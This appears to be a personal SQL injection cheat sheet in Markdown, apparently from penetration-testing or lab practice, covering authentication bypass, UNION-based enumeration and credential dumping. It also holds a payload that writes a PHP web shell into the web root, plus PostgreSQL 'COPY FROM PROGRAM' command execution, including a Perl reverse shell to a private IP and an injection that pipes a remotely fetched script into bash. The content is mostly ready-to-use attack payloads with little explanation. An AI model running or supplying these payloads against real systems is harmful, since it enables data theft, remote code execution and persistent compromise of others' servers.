


_____
https://tib3rius.com/sqli
https://portswigger.net/web-security/sql-injection/cheat-sheet
____
`email=' or 1=1-- -;`
# Union Injection

```bash
username=test&country=Brazil'
```



```
SELECT username from players where country = '[input]';
```

A UNION injection is when I add a UNION statement to the query allowing me to make a new query and append the results to the intended query. I’ll need to match the same number of columns, or the query will error. I’ll start with `Brazil' UNION SELECT 1;-- -`. That would make the query:

```
SELECT username from players where country = 'Brazil' UNION SELECT 1;-- -';
```

We see the page no longer displays an error,
which tells us the SQL Query is returning only one column
## Enumerate DB

```sql
order by 4-- -
```

```sql
union select 1,2,3,4-- -
```

```sql
select schema_name from information_schema.schemata
```

```sql
select table_name from information_schema.tables where table_schema = 'registration'
```

```sql
select column_name from information_schema.columns where table_name = 'registration'
```

```sql
select username,password from public.users
```

```sql
select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'"
```

### concat

```sql
' UNION SELECT NULL, CONCAT(username, ':', password) FROM users-- -
```
### File write

```sql
select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/shell.php'
```


# PostgreSQL
____

https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce


```bash
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```



```
';CREATE+TABLE+cmd_exec(cmd_output+text);--+-
```

```
';COPY+cmd_exec+FROM+PROGRAM+'curl+10.10.14.7/shell+|+bash';--+-
```
